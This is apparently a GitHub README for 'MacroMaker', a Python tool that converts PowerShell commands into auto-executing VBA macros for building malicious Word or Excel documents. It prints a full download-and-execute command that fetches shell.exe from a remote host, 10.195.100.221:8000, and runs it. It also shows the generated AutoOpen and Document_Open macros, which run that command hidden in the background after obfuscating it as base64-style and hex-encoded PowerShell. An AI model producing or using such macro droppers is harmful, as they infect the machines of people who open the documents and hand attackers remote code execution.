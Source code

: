 # MacroMaker
*****************************
### what is Macros :
* Macros are special-purpose programs used to automate procedures within a bigger application or software. Usually a macro consists of a series of      commands and actions written in a dedicated Macro Language or a standard programming language. These commands will be executed automatically by the application when a certain trigger takes place.

* Macros are implemented extensively within Office Suites to allow the automation of common tasks and procedures. Different suites use different macro  languages, but some notable mentions are Visual Basic for Applications (MS Office), LibreOffice Basic (LibreOffice) and OpenOffice Basic (OpenOffice).

* Most Office macro languages have rather extensive features and can access various resources. For example, MS Office macros (written in VBA) can run  executables and use networking capabilities.
* Macro  can  use to  generate malicious  Microsoft Word or Microsoft Excel document  
* [reference](https://www.cynet.com/attack-techniques-hands-on/office-macro-attacks/)
* [Microsoft Doc](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6)
### what is MacroMaker-
-------------------------------------
 * MacroMake is Script witten by python3 help to genertate  VBA  code ready to use
  - MacroMaker Take the powershell command as  aragnent  then will treanset the command to VBA code,  
  ready to  executed automatically any command  in  background
    - Executes PowerShell   or Uses networking capabilities to download files from remote servers ..etc
 * MacroMaker have to way to Gentate thr VBA code 
   - encode base16
   - hexformat

### How to enable-develope   -
-------------------------------------
 ### - enable Develope mode  to can inster macro in to microsoft-office 
 *  The Developer tab isn't displayed by default, but you can add it to the ribbon.
 - 1- On the File tab, go to Options > Customize Ribbon.
 - 3- Under Customize the Ribbon and under Main Tabs, select the Developer check box.
 * [reference](https://www.groovypost.com/howto/enable-developer-tab-microsoft-office-ribbon/)

 ## How to Use MacroMacker - 
 -----------------------------------------
 * git clone https://www.github.com/jac11/MacroMaker.git
 * cd MacroMaker
 * chmod +x MacroMaker.py
 * to see the help list MacroMaker.py -h/--help
 ## explain :-
----------------------------------------
 incace i need to download file and exctue after download i use powershaell  - 
 ```
 (New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')
 ```
- this code will download file from the server then will excxut it after download to use as VBA use Macromacker
- ./Macromaker.py <-c the poweshell code > <-n the file name to  save output > 
- ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
$ ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
* output VBA Script 
```

Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Str As String
	Str= str+"powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQA"
	Str= str+"LgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAE"
	Str= str+"YAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA5ADUALgAx"
	Str= str+"ADAAMAAuADIAMgAxADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAGUAeA"
	Str= str+"BlACcALAAnACAAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMA"
	Str= str+"XABEAG8AYwB1AG0AZQBuAHQAcwBcAHMAaABlAGwAbAAuAGUAeABlAC"
	Str= str+"cAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAoACcAIABD"
	Str= str+"ADoAXABVAHMAZQByAHMAXABQAHUAYgBsAGkAYwBcAEQAbwBjAHUAbQ"
	Str= str+"BlAG4AdABzAFwAcwBoAGUAbABsAC4AZQB4AGUAJwApAA=="
	CreateObject("Wscript.shell").Run Str , 0, True 
End Sub



```
* to use same command and get  output  as hex  code user --hex option
```
./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code --hex
```
* output 
```
Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Hex As String
	Hex ="powershell.exe $hexString ='"& _
	"28 4e 65 77 2d 4f 62 6a 65 63 74 20 4e 65 74 2e 57 65 62 43 6c 69 65 6e 74 29 2e"& _
	" 44 6f 77 6e 6c 6f 61 64 46 69 6c 65 28 27 68 74 74 70 3a 2f 2f 31 30 2e 31 39 35"& _
	" 2e 31 30 30 2e 32 32 31 3a 38 30 30 30 2f 73 68 65 6c 6c 2e 65 78 65 27 2c 27 20"& _
	" 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c 73"& _
	" 68 65 6c 6c 2e 65 78 65 27 29 3b 53 74 61 72 74 2d 50 72 6f 63 65 73 73 20 28 27"& _
	" 20 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c"& _
	" 73 68 65 6c 6c 2e 65 78 65 27 29'"& _
	";$hexString.Split(' ') | forEach {[char]([convert]::toint16($_,16))}"& _
	"| forEach {$result = $result + $_};Set-Variable -Name 'ROT' -Value ($result);Invoke-Expression $ROT "
	Set WshShell = CreateObject("Wscript.Shell")
	WshShell.Run Hex, 0, True
End Sub
```
* output  will save in the MacroStore folder under the name  user give it - n <the name >
  
<img src = "images/1.png" width=350>  <img src = "images/2.png" width=350>
-----------------------------------------------------------------
### video tutorial
--------------------
<p alian="center">	
<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/B_i066ZqvPc" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>
	
- rootx1982@gmail.com
-  thank you 
